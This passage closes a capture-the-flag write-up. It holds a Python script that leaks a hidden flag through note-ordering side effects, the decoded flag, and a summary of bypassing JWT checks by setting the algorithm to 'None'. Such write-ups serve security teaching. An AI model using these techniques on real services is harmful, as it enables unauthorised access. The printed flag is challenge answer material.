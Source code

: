 ```python
flag = ""
reset()
#print getnotes()
while True:
  dicc = False
  for i in charset:
    reset()
    id = create(flag + i + "0"*(32-len(flag + i)))
    epoch = getepoch(id)
    epochs = getnotes()
    res = json.loads(epochs)["epochs"]
    if res.index(str(epoch)) > res.index(str(flagepoch)):
      flag += charset[max(0, charset.index(i) - 1)]
      dicc = True
      break
  print flag
```

We find the id to be: ```EelHIXsuAw4FXCa9epee```. Getting the note returns:

```
{"note":"NzAyLUNURi1GTEFHOiBOUDI2bkRPSTZINUFTZW1BT1c2Zw==","epoch":"1528911533"}
```

Which base64 decodes to the flag

### Flag

702-CTF-FLAG: NP26nDOI6H5ASemAOW6g

### TL;DR

Set JWT ID to 1, and bypass verification by setting algorithm to None. Change API version to v2 and perform a search on the ID of the flag.

## The End!

![](https://raw.githubusercontent.com/VoidMercy/CTFs/master/h1-702%20CTF/done.jpg)

